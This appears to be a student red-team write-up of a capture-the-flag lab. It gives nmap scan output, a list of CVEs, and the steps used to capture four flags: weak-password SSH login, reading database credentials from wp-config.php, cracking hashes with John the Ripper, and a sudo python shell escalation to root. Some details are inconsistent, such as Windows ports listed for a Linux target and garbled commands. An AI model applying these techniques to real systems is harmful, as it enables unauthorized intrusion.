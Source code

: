 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ #nmap -sV -sS 192.168.1.0/24 -oN scanresult.txt
Nmap scan report for 192.168.1.1
Host is up (0.00058s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00080s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00077s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000017s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 17 22:19:17 2021 -- 256 IP addresses (6 hosts up) scanned in 28.45 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
```bash
PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 128
2179/tcp open  vmrdp?        syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
```


The following vulnerabilities were identified on each target:

- Target 1
  - CVE-2008-5161 : SSH remote login was enabled at the user level with port 22 open.
  - CVE-2019-12215 : Full Path Disclosure
  - CVE-2019-15653 : HTML password disclosure – The password was viewable 192.168.1.110/service.html)
  - CVE-2017-7760 : exposed username which enabled password brute force possibility

[Target1 -Vulnerability Scan](target1vulnscan.md)

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - User identified and access to system via SSH gained due to password being weak (same as login name). Search for first flag after access gained:
      - ``` $sh user@ip address ```
      - ``` $locate flag ```
      - ``` $cat www/var/html/service.html | grep 'flag' ```
      ![Flag1](images/flag1_grep.png)
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - User password used to access system via SSH and flag2 found in Wordpress directory.
      - ``` $sh user@ip address ```
      - ``` $locate flag ```
      - ``` cat www/var/flag2.txt ```
      ![Flag2](images/flag2.png)
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Exploit of MySQL database using password found in ```wp-config.php``` located on exploited user account. Found in ```/var/www/html```
      ![Flag3](images/flag3.png)
  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - User password hashes located in ```wp_users``` sql database and cracked using John The Ripper.
      - Access gained but privilege escalation required in order to search for flag. 
      - ```sudo -l``` used to determine available binaries - Python appeared to be available.
      - GTFOBins used to find and use command: ```$sudo python -c 'import os; os.system("/bin/sh")```
      - Root level access gained and search for flag4 lead to root directory location.
      ![Flag4](images/flag4.png)

